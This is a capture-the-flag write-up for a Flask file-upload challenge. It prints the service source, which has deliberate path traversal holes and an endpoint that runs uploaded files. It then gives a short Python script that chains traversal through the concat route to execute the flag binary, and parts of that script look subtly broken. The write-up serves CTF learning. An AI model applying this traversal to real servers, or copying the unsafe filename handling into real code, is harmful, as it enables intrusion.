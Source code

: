 First of all, i want to say, that author is kid in creating tasks. This code
is awful.  
**works as intended (c)**  
.=================================================================

Okay, we have source code (we could find it here: https://my-
project.chujowyc.tf/source)  
```  
#!/usr/bin/python

from PyPDF4 import PdfFileReader  
from io import BytesIO  
from uuid import uuid1  
from flask import Flask, render_template_string, request, make_response,
redirect, abort

app = Flask(__name__)

def check_tekstfile(file):  
   try:  
       # pdf  
       PdfFileReader(BytesIO(file))  
   except:  
       # plik .txt  
       for c in file:  
           if c not in range(1, 128):  
               return False  
       return True  
   return True

@app.route('/')  
def index():  
   with open('index.html', 'r') as f:  
       s = f.read()  
   return render_template_string(s)

@app.route('/source')  
def source():  
   with open('source.html', 'r') as f:  
       s = f.read()  
   return render_template_string(s)

@app.route('/upload', methods=['POST'])  
def upload():  
   f = request.files['file']  
   s = f.read()  
   if not check_tekstfile(s):  
       return 'not a tekst'  
   uuid = uuid1().hex  
   with open('./files/' + f.filename + uuid, 'wb') as ff:  
       ff.write(s)  
   return 'link: Klik'

@app.route('/files', methods=['GET'])  
def uploads():  
   try:  
       return send_file('./files/' + request.args['filename'])  
   except:  
       return 'no file'

# FIXME: z jakiegos powodu nie dziala concatowanie pdfow  
@app.route('/concat', methods=['POST'])  
def concat():  
   with open('./files/' + request.args['filename1'], 'rb') as f2:  
       s2 = f2.read()  
   f = request.files['file']  
   s = f.read()  
   if not check_tekstfile(s):  
       return 'not a tekst'  
   uuid = uuid1().hex  
   with open('./files/' + f.filename + uuid, 'wb') as ff:  
       ff.write(s2 + s)  
   return 'link: Klik'

@app.route('/flag/<name>', methods=['GET'])  
def flag(name):  
   from pathlib import Path  
   from subprocess import check_output  
   import os  
   path = Path('./secure/').joinpath(name)  
   assert path.parent.name == 'secure'  
   assert path.name != 'print_flag'  
   assert open(path, 'rb').read(1) != ord('#')  
   os.chmod(path, 0o700, follow_symlinks=False)  
   return check_output([path]).decode('ascii')  
```  
The service has only 4 functions: upload, files, concat, flag (ans function
**files** not working at all).

As we can understand, function *files* function not working, and for this
reason we didn't interest in it.  
Let's take attention to *flag* function. Here we check, if we take file from
*secure* folder and filename isn't *print_flag*.  
It is easy to understand, that we need to get *print_flag*.

Okey, let's try to use **path traversal** attack.

1) Upload file in **../secure/** folder (via concat)  
2) Use *concat* function with file **../secure/filename** and
**../secure/print_flag**  
3) Use *flag/filename* to get flag.

Final code:  
```  
import requests as req

URL = ""  
files = {"file": {"../secure/ctfby", ""} }

r = req.post(URL + "concat?filename".format("../secure/print_flag"),
files=files)  
uuid = r.text.split("filename")[1].split('">')[0]

r = req.get(URL + "flag/{}".format("ctfby" + uuid))  
print(r.text)  
```

Join my telegram channel about CTF in Belarus! @ctfby